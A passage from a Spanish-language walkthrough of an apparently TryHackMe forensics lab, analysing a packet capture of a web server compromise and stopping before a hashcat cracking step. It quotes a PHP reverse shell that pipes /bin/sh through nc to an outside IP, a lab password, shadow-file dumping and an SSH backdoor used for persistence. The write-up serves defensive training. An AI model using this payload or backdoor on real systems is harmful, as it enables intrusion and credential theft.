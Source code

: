 ![2]

Este nos mostrará más información del paquete, así como qué es lo que contenía, necesario para responder a las siguientes preguntas.

![3]

En la captura anterior se aprecia lo siguiente:
- El atacante visitó el sitio /development/upload.php (seguramente un file uploader sin protección)
- El atacante subió un archivo llamado payload.php, el cual es una reverse shell.
- Esta reverse shell contiene el siguiente código:

Código

    <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

Lo reconocemos a simple vista después de haber realizado las máquinas anteriores, es una reverse shell en un PHP. Esto responde a la pregunta número dos, que solicita el payload que el atacante usó para acceder al sistema.

Si nos dirigimos a la siguiente captura dentro del mismo stream de datos, veremos lo siguiente (para ello, en la parte inferior de la ventana veremos un par de flechas hacia arriba y hacia abajo, debemos hacer clic en la que va hacia arriba para ir a la siguiente):

![4]

En la captura anterior se observa lo siguiente:
- El atacante realizó un tratamiento de la TTY para tener un prompt más visual.
- El atacante realizó un cambio de usuario a **james** con la contraseña: *whenevernoteartinstant*
- Realizó una consulta por los permisos SUDO de dicho usuario con el comando *sudo -l*, observando que este usuario podía realizar *sudo* sin proporcionar contraseña (un error garrafal de seguridad).
- Al tener estos permisos, listo el archivo shadow, el cual recordemos, contiene los hashes de las contraseñas de acceso en Linux.

Esto responde a la pregunta tres, la cual solicita la contraseña que el atacante usó para cambiar de usuario: *whenevernoteartinstant*

Bajando en la misma captura, veremos lo siguiente:

![5]

Se trata del arhivo *shadow* el cual contiene los hashes de cinco usuarios. Además, vemos que el atacante hizo una descarga de un repositorio de GitHub llamado **SSH Backdoor**. Este último permite crear persistencia en el sistema al crear un puerto de acceso nuevo desde el cual el atacante podrá entrar cada que lo requiera, sin necesidad de comprometer nuevamente el servidor.

Esto responde a la pregunta cuatro, la cual requiere saber el nombre del programa con el cual el atacante creó persistencia en el sistema: https://github.com/NinjaJc01/ssh-backdoor

Por último, TryHackMe nos pide saber cuántas de esas cinco contraseñas hasheadas son crackeables, es decir, se pueden descifrar por medio de un ataque de fuerza bruta. Para ello, nos pide emplear el diccionario [fasttrack.txt](https://github.com/drtychai/wordlists/blob/master/fasttrack.txt)

Este procedimiento lo podemos realizar por medio de **hashcat**, simplemente dándole el tipo de hash del que se trata (1800 - SHA512 Unix), el listado de hashes y el diccionario proporcionado:
